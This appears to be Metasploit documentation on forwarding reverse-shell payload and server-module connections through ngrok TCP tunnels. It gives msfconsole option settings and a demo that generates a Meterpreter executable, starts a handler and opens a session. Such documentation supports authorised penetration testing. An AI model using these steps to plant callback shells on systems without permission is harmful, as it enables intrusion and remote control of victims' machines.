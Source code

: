 # Overview
[ngrok][1] is a popular service that offers free port-forwarding that is easy to setup without needing to run a
dedicated server on a public IP address (as is the case with SSH, socat and other more traditional options. This means
that users behind a SNATing device such as a SOHO router can accept reverse shells and other connections without needing
to configure port forwarding.

**WARNING:** The nature of using ngrok is to send traffic through a third party. ngrok and the server which it utilizes
are not affiliated with the Metasploit project. Use of ngrok effectively sends traffic through an untrusted third party
and should be done with extreme caution. While Meterpreter has offered end-to-end encryption since Metasploit 6.0, other
payloads and connections do not.

ngrok can start multiple types of tunnels. The `tcp` tunnel is compatible with Metasploit's payloads and most closely
resembles a traditional port-forwarding configuration. The `http` tunnel type is not compatible with payloads, and
should not be used. The `tls` tunnel type may be compatible, but access to it is restricted to the Enterprise and 
Pay-as-you-go paid plans. This document will focus on the use cases for the `tcp` tunnel type. Note that one limitation
is that the public port can not be configured, it is randomly selected by ngrok meaning that the target will need to be
able to connect to this high, obscure port which may be prevented by egress filtering.

## Usage with payloads
Use with payloads can be achieved with any of the reverse-connection stagers that accept `LHOST` and `LPORT` options,
e.g. reverse_tcp, reverse_http, reverse_https, etc. but not reverse_named_pipe. In the following scenario, ngrok will be
used to forward a random public port to the Metasploit listener on port 4444. This scenario assumes that Metasploit and
ngrok are running on the same host.

**NOTE:** At this time, payloads handle DNS hostnames inconsistently. Some are compatible with hostnames while others
require IP addresses to be specified as the target to connect to (the `LHOST` option). To ensure the specified payload
will work, the hostname provided by ngrok should be resolved to an IP address and the IP address should be used as the
value for `LHOST`.

1. Start a TCP tunnel using ngrok: `ngrok tcp localhost:4444`.
1. ngrok should start running and display a few settings, including a line that says "Forwarding". Note the host and
   port number from this line, e.g. `4.tcp.ngrok.io:13779`
1. Resolve the hostname from the previous step to an IP address.
1. Start msfconsole and use the desired payload or exploit module.
  * Using `msfconsole` for both generating the payload and handling the connection is recommended over using `msfvenom`
    for two reasons.
    1. Using `msfvenom` starts up an instance of the framework to generate the payload, making it a slower process.
    2. Using `msfconsole` to configure both the payload and handler simultaneously ensures that the options are set for
       both, eliminating the possibility that they are out of sync.
1. Set the `LHOST` option to the IP address noted in step 3. This is where the payload is expecting to connect to.
1. Set the `LPORT` option to the port noted in step 2, `13779` in the example.
1. Set the `ReverseListenerBindAddress` option to `127.0.0.1`. This is where the connection will actually be accepted
   from ngrok.
1. Set the `ReverseListenerBindPort` option to `4444`.
1. Either run the exploit, or generate the payload with the `generate` command and start the handler with `to_handler`

Once the payload has been executed, either through the exploit or manual means, there should be a open connection seen
through the ngrok terminal.

### Payload Demo

ngrok side:
```
$ ngrok tcp localhost:4444
ngrok                                                           (Ctrl+C to quit)

Take our ngrok in production survey! https://forms.gle/aXiBFWzEA36DudFn6

Session Status                online
Account                       ????? (Plan: Personal)
Version                       3.16.0
Region                        United States (us)
Latency                       33ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://4.tcp.ngrok.io:17511 -> localhost:4444

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

resolve the hostname `4.tcp.ngrok.io` to an IP address
```
$ dig +short 4.tcp.ngrok.io
192.0.2.1
```

metasploit side:
```msf
msf > use payload/windows/x64/meterpreter/reverse_http
msf payload(windows/x64/meterpreter/reverse_http) > set LHOST 192.0.2.1
LHOST => 192.0.2.1
msf payload(windows/x64/meterpreter/reverse_http) > set LPORT 17511
LPORT => 17511
msf payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindPort 4444
ReverseListenerBindPort => 4444
msf payload(windows/x64/meterpreter/reverse_http) > to_handler 
[*] Payload Handler Started as Job 2
msf payload(windows/x64/meterpreter/reverse_http) > 
[*] Started HTTP reverse handler on http://127.0.0.1:4444

msf payload(windows/x64/meterpreter/reverse_http) > generate -f exe -o ngrok_payload.exe
[*] Writing 7168 bytes to ngrok_payload.exe...
msf payload(windows/x64/meterpreter/reverse_http) > 
[*] http://127.0.0.1:4444 handling request from 127.0.0.1; (UUID: ghzekibo) Staging x64 payload (202844 bytes) ...
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55468) at 2024-09-10 16:43:58 -0400

msf payload(windows/x64/meterpreter/reverse_http) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter >
```

## Usage with server modules
Some modules expect connections to be made to them by the target. These modules can also be used with ngrok, with some
slight variations to the payload workflow in regards to their datastore options. Modules that start servers can be
identified by using the `SRVHOST` and `SRVPORT` datastore options.

**NOTE:** Free ngrok plans can only open one tcp tunnel at a time. This means that if the module is an exploit that a
tcp tunnel for a reverse-connection payload will not be able to be opened at the same time. Use a second ngrok account
to open a second tcp tunnel and follow the steps above for the payload configuration.

1. Start a TCP tunnel using ngrok: `ngrok tcp localhost:4444`.
1. ngrok should start running and display a few settings, including a line that says "Forwarding". Note the host and
   port number from this line, e.g. `4.tcp.ngrok.io:13779`
1. Resolve the hostname from the previous step to an IP address.
1. Start msfconsole and use the desired module.
1. Set the `LHOST` option to the IP address noted in step 3. This is where the payload is expecting to connect to.
1. Set the `SRVPORT` option to the port noted in step 2, `13779` in the example.
1. Set the `ListenerBindAddress` option to `127.0.0.1`. This is where the connection will actually be accepted
   from ngrok.
1. Set the `ListenerBindPort` option to `4444`.
1. Run the module

[1]: https://ngrok.com/

